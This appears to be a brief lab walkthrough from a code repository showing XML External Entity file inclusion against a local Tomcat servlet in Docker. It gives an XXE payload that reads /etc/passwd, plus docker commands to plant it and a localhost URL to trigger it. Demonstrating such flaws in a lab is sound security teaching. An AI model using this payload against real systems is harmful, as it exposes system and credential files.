


# File Inclusion via XXE

1. Create a new XML file called [evil.xml](artifact/evil.xml) with malicious payload in XML header

        <!DOCTYPE doc [
                <!ENTITY ent SYSTEM "file:///etc/passwd">
        ]>

2. Obtain the container ID of Tomcat Docker container by running `docker ps -a` command

    

3. Replace the contents of `employees.xml` file with contents of `evil.xml`, inside the Docker container

        docker cp evil.xml d11d200f5264:/var/tmp/employees.xml

4. Refresh the URL http://localhost:1234/HelloXML/HelloXMLServlet

    

